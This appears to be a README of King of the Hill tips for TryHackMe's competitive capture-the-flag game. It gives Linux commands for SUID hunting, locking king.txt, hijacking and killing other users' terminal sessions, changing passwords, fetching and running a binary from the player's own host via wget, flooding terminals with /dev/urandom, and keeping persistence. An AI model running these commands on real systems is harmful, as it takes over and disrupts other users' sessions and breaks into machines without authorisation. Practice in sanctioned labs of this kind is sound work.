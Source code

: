 # Koth TryHackMe - Tricks

## Examples

## looking for root permissions

* you can use find to search for permissions with root

```
find / -type f \( -perm -4000 -o -perm -2000 \) -print
```


## using chattr

* you can use this to make the file immutable and therefore keep your name in this file.

```
chattr +i /root/king.txt
```

## fixing the vulnerability in /etc/sudoers, for example

```
# User privilege specification
root ALL=(ALL=ALL) ALL
teste ALL=(root) SETENV:NOPASSWD: /usr/bin/git *, /usr/bin/chattr
test1 ALL=(root) NOPASSWD: /bin/su test1, /usr/bin/chattr
```

* here you can see that user teste and teste1 has root permission on the git and su binary, to fix this just remove everything from the teste and teste1 there

```
root ALL=(ALL=ALL) ALL
```

* and it will be like that, so there will be no way to climb privilege by su and git

## using find

* you can use find to look for flags

```
find / -name flag.txt 2>/dev/null
find / -name user.txt 2>/dev/null
find / -name .flag 2>/dev/null
find / -name flag 2>/dev/null
find / -name root.txt 2>/dev/null
```
## full tty shell

* tweaking your shell, if you get a reverse shell and you ctrl + c and your shell closes/stops, this will help you and you can edit, give ctrl + c at will

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
export TERM=xterm
Ctrl + z
stty raw -echo;fg
```

## breaking into the shell of users logged into SSH (NOT RECOMMENDED,DO THIS ONLY IN PRIVATE ROOMS WITH YOUR FRIENDS FOR FUN)

* you can use the following command to break into the shell of other logged in users

```
script -f /dev/pts/1
```

* for you to know which pts (pseudo slave terminal) the user is connected, just use the following command in the terminal: w , then just see which pts the user is and use the command

## how to see who is logged into the system

* you can use the following commands to see who is logged into ssh/system

```
w
who
ps aux | grep pts
```

## killing session of a user logged into ssh/system

* to kill someone's session just use the following command

```
pkill -9 -t pts/1
```

* as explained in some examples above, just put the pts of the user you want to remove from the machine

## changing ssh user password

* to change a user's password just use the following command

```
passwd [UserName]
```

* you can change ssh keys

# Changing the ssh port (NOT RECOMMENDED, IF YOU DO THIS DO IT WITH YOUR FRIENDS IN PRIVATE ROOMS BECAUSE IT MAY RESULT IN PUNISHMENT, IT'S AGAINST THE RULES!)

## Example

> nano /etc/ssh/sshd_config

```
Include /etc/ssh/sshd_config.d/*.conf

#Port 22
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::

#HostKey /etc/ssh/ssh_host_rsa_key
#HostKey /etc/ssh/ssh_host_ecdsa_key
#HostKey /etc/ssh/ssh_host_ed25519_key
```
* by default the SSH port is port 22, but you can change this port for example

```
Include /etc/ssh/sshd_config.d/*.conf

Port 55999
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::

#HostKey /etc/ssh/ssh_host_rsa_key
#HostKey /etc/ssh/ssh_host_ecdsa_key
#HostKey /etc/ssh/ssh_host_ed25519_key
```

> service sshd restart

* and ready after restarting the SSH service the SSH port will be at 55999

# Nyancat

## Preparing the Nyancat

> git clone https://github.com/klange/nyancat

> cd nyancat/src

> make

## Sending Nyancat to machine

> python -m SimpleHTTPServer 80 # on your local machine

> wget http://yourip/nyancat # on the KOTH machine

> chmod +x nyancat

> ./nyancat > /dev/pts/# < here where is the # you will place the enemy PTS where I explained it here in this koth tryhackme tricks.

## Breaking pts by sending spam from urandom

> cat /dev/urandom > /dev/pts/#


## defending box

* Look for common ways to fix a box, for example: changing ssh keys, changing passwords, look for running processes or even in cronjobs

* Always set your persistence so that even if someone kicks you out, you have multiple ways to get back.

* So start fixing things in the box. Fix security issues, not legitimate services. For example, disabling ssh is NOT allowed unless it is an intentionally broken ssh installation.


## Some useful links

[for privilege escalation](https://gtfobins.github.io/).

[this will help you with reverse shell](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

[this will help you with ciphers, hashes, etc.](https://gchq.github.io/CyberChef/)

## Note 

Don't do anything wrong on the koth machines, please respect all the rules for everyone to have a great experience and a great game

https://docs.tryhackme.com/docs/koth/king-of-the-hill

## more content here soon!
